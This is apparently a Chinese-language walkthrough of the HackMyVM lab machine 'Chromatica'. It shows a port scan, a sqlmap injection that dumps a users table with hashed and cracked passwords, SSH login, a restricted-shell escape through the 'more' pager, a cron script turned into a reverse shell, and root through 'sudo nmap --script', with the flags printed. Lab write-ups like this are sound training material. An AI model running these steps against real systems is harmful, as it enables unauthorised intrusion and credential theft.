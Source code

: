 # Chromatica

2025.03.28 https://hackmyvm.eu/machines/machine.php?vm=Chromatica

[video]()

## Ip

192.168.5.39

## Scan

```
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
5353/tcp open  mdns
```

robots 显示：

```
user-agent: dev
Allow: /dev-portal/
```

浏览器添加 ua 为 dev，在访问这个目录，跳转到 http://192.168.5.39/dev-portal/search.php?city= 存在 sql 注入，

```
sqlmap -r req.txt --flush-session --batch -D Chromatica -T users --dump

+----+-----------------------------------------------+-----------+-----------------------------+
| id | password                                      | username  | description                 |
+----+-----------------------------------------------+-----------+-----------------------------+
| 1  | 8d06f5ae0a469178b28bbd34d1da6ef3 (adm!n)      | admin     | admin                       |
| 2  | 1ea6762d9b86b5676052d1ebd5f649d7 (flaghere)   | dev       | developer account for taz   |
| 3  | 3dd0f70a06e2900693fc4b684484ac85 (keeptrying) | user      | user account for testing    |
| 4  | f220c85e3ff19d043def2578888fb4e5              | dev-selim | developer account for selim |
| 5  | aaf7fb4d4bffb8c8002978a9c9c6ddc9 (intern00)   | intern    | intern                      |
+----+-----------------------------------------------+-----------+-----------------------------+

```

ssh 登陆爆破，login: dev password: flaghere

ssh 登陆时 bash 被限制了，这时缩小窗口，显示提示信息时会出现 more 的样式，直接输入 !/bin/bash 就能进入到 shell。

```
dev@Chromatica:~$ cat user.txt
brightctf{ONE_OCKLOCK_8cfa57b4168}
```

发现脚本 /opt/scripts/end_of_day.sh ，应该是 analyst 用户定时在执行，修改成反弹 shell，等待反弹。

sudo -l (ALL : ALL) NOPASSWD: /usr/bin/nmap

```
TF=$(mktemp); echo 'os.execute("/bin/bash")' > $TF
sudo nmap --script=$TF
```

拿到 root flag:

```
brightctf{DIR_EN_GREY_59ce1d6c207}
```
